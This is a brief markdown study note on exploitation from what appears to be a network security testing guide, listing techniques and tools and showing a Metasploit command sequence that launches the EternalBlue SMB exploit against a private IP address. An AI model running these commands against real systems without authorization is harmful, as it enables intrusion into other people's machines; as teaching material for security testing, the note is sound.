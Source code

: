 
---

### 39. **Network_Security_Testing/Exploitation.md**

```markdown
# Exploitation

## Overview
Exploitation involves taking advantage of identified vulnerabilities to gain unauthorized access or control over a system.

## Techniques
- **Exploiting Known Vulnerabilities** - Using exploits for vulnerabilities found during scanning.
- **Custom Exploits** - Developing custom exploits for specific vulnerabilities.

## Tools
- **Metasploit** - A framework for developing and executing exploits.
- **Exploit-db** - A database of public exploits.

## Example
Using `Metasploit` to exploit a vulnerability:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit

